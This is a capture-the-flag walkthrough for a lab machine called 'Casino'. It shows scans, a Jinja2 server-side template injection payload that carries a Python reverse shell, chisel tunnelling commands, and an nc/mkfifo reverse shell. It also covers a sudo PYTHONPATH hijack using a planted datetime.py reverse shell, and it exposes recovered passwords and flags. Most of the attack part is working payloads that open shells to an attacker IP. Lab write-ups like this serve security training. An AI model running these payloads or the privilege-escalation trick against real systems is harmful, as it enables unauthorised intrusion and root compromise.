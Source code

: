 # CASINO

![](../.gitbook/assets/98ff2e8024e9440c95902888c312d1c5.png)

## NMAP SCAN

```text
PORT     STATE    SERVICE    REASON         VERSION
22/tcp   open     ssh        syn-ack ttl 63 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp   open     http       syn-ack ttl 63 Apache httpd 2.4.29 ((Ubuntu))
| http-methods: 
|_  Supported Methods: OPTIONS HEAD GET
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: River - Index
9000/tcp filtered cslistener no-response
```

## PORT 80 ENUMERATION

### GOBUSTER

```text
/search               (Status: 302) [Size: 209] [--> http://172.31.3.7/]
/login                (Status: 200) [Size: 3316]                        
/static               (Status: 301) [Size: 309] [--> http://172.31.3.7/static/]
/portal               (Status: 200) [Size: 4266]                               
/team                 (Status: 200) [Size: 3612]                               
/tos                  (Status: 200) [Size: 2892]                               
/play                 (Status: 302) [Size: 219] [--> http://172.31.3.7/login]  
/server-status        (Status: 403) [Size: 275]
```

### /LOGIN

![](../.gitbook/assets/a5ba144b01e44973bb460326f7caef3d.png)

### USERS \( ATTENTION TO "FLASK"\)

```text
Erlich Bachman
grey   (Newbie Flask Web Dev)
Carla
Dinesh
Gilfoyle
```

```text
Phil
Alan - How did you get banned from an arcade???
Stu
Mr. Chow
Doug
```

### /PORTAL

![](../.gitbook/assets/68bbb28803ac43bf9aba2f5c4c79a692.png)

## SERVER SIDE TEMPLATE INJECTION

* [https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server Side Template Injection/README.md](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md)

![](../.gitbook/assets/3900925891c043eab22672b88c49a058.png)

![](../.gitbook/assets/eed4107b54cb4fde98b4209fc7c9a03a.png)

### EXPLOIT

* USE THIS COMMAND

```text
{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen("python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.10.0.63\",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\", \"-i\"]);'").read().zfill(417)}}{%endif%}{% endfor %}
```

![](../.gitbook/assets/217f19d07485471d86fb93adfbff4952.png)

![](../.gitbook/assets/2acba8cba5384319b3640cf5ecffccf5.png)

## MACHINE ENUMERATION

### USERS WITH CONSOLE

```text
root:x:0:0:root:/root:/bin/bash
erlich:x:1000:1000:erlich:/home/erlich:/bin/bash
grey:x:1001:1001:,,,:/home/grey:/bin/bash
carla:x:1002:1002:,,,:/home/carla:/bin/bash
```

### WEBAPP DIRECTORY

![](../.gitbook/assets/55e8d051e468449a8a7a5f2b58de3eaa.png)

```text
i_L0v3$$$
```

* DOWNLOAD ZIP FILE

![](../.gitbook/assets/9bfafca0f7724bc9abc91bb46e4bd25b.png)

![](../.gitbook/assets/68aa1044d01c43c2aa743bf11651c0b8.png)

* APP.PY

![](../.gitbook/assets/b7a740bbabab49bfb3fcf09c3957f13e.png)

```text
grey:>F73SzS36>V$tJmc
```

![](../.gitbook/assets/0f00abeba45a43e2bf6f950adedf76aa.png)

```text
erlich:i_L0v3$$$
```

## LOGIN USING ERLICH CREDS

![](../.gitbook/assets/215e19fe8fc24a229bb37ee07d17b6b0.png)

### BTC

MAYBE SOME FORM OF EXPLOIT IN THE PARAMETER \(IF NEED IT WE CAME BACK\)

![](../.gitbook/assets/7064e077b63c454ba38274af7fd2a584.png)

![](../.gitbook/assets/aba51011e0fa47f4a08fcf7b0997cc5a.png)

![](../.gitbook/assets/582f5457418a4c8b9965f227ab3d2469.png)

## ENUMERATE & EXPLOIT PORT 9000

## UPLOAD CHISEL

* IN OUR ATTACKER MACHINE

```text
chisel server -p 8888 --reverse
```

![](../.gitbook/assets/6dc1e43eddb24df2815a5598d5ac11c2.png)

* IN VICTIM

```text
./chisel client 10.10.0.63:8888 R:9000:127.0.0.1:9000
```

![](../.gitbook/assets/d8c72e4d23d540ce8d2763d3d45ca881.png)

## DEVELOPER PLATFORM

![](../.gitbook/assets/2b2e6d3ca6dd403eaa1e134429753cba.png)

### GET A SHELL

```text
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.0.63 9999 >/tmp/f
```

![](../.gitbook/assets/d37814a62bb04da89729ed3d35b0e412.png)

![](../.gitbook/assets/988465303e2f4d87a9f1384766c54e84.png)

## GREY HOME FOLDER

### .GIT

* GIT SHOW

![](../.gitbook/assets/3da7ccf502fe427ab4fd279986c46761.png)

```text
carla:>F73SzS36>V$tJmc
```

## PRIVESC

![](../.gitbook/assets/fca99ad2cdff4f95985db0d6a04797c9.png)

* WE CAN SET THE ENVIRONMENT IN SUDO MODE \(IN THIS CASE THE PYTHONPATH\)
* FILE "updateBTCPrice.py -rwxr-xr-x root\(WE CAN'T EDIT\)"

```python
#!/usr/bin/python3

from datetime import datetime
import requests

print(datetime.now())

try:
    price = requests.get("https://www.coinbase.com/price/bitcoin").text
    btcPrice = open('/var/www/webApp/webApp/templates/btc.price', 'w')
    btcPrice.write(price)
    btcPrice.close()
    import os
    os.system("service apache2 restart")
except:
    print("ERROR: Could not connect to coinbase!")
```

### MAKE OR UPLOAD A DATETIME.PY IN TMP OR DEV/SHM

REVERSE SHELL IN PYTHON

```python
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.0.63",6325));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
```

![](../.gitbook/assets/2231b6b78312438da52a662c574ebf54.png)

RUN SUDO COMMAND

```bash
sudo PYTHONPATH=/tmp /opt/updateBTCPrice.py
```

![](../.gitbook/assets/028ae4a5099240388265c90a82c3c749.png)

## FLAGS

### USER

```text
69ee5d271b39d6aa19849dd8cbf516f3
```

### ROOT

```text
eea92150cdc75ba784e8d368b0ba36e0
```

